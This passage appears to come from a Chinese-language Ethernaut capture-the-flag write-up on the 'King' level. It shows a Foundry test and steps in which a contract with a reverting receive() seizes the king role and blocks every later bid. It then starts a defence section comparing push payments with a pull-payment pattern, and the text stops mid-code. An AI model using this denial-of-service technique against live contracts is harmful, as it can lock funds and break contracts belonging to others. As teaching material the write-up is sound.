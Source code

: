 ```solidity
        
        // 验证攻击成功
        assertEq(instance._king(), address(attacker));
        
        // 尝试有人超越我们（应该失败）
        vm.expectRevert();
        (bool success, ) = levelInstance.call{value: initialPrize + 2}("");
        assertFalse(success);
        
        // 验证我们仍然是 king
        assertEq(instance._king(), address(attacker));
        
        // 这个关卡无法正常提交，因为我们破坏了游戏机制
        // 但这正是关卡想要演示的攻击效果
    }
}
```

### 关键攻击步骤

1. **分析当前 prize**：确定需要多少 ETH 成为 king
2. **部署攻击合约**：合约的 `receive()` 函数会 revert
3. **成为 king**：发送足够的 ETH
4. **锁定王位**：任何后续尝试都会因为 transfer 失败而回滚

```solidity
// 部署攻击合约
KingAttacker attacker = new KingAttacker{value: initialPrize + 1}(levelInstance);

// 发送 ETH 成为 king
attacker.attack{value: initialPrize + 1}();

// 验证攻击成功
assertEq(instance._king(), address(attacker));
```

## 🛡️ 防御措施

### 1. 使用 Pull Payment 模式

```solidity
// ❌ 不安全：Push Payment
contract VulnerableKing {
    address public king;
    uint public prize;
    
    receive() external payable {
        require(msg.value >= prize);
        payable(king).transfer(msg.value);  // 可能失败
        king = msg.sender;
        prize = msg.value;
    }
}

// ✅ 安全：Pull Payment
contract SecureKing {
    address public king;
    uint public prize;
    mapping(address => uint) public pendingWithdrawals;
    
    receive() external payable {
        require(msg.value >= prize);
        
        // 记录待提取金额
```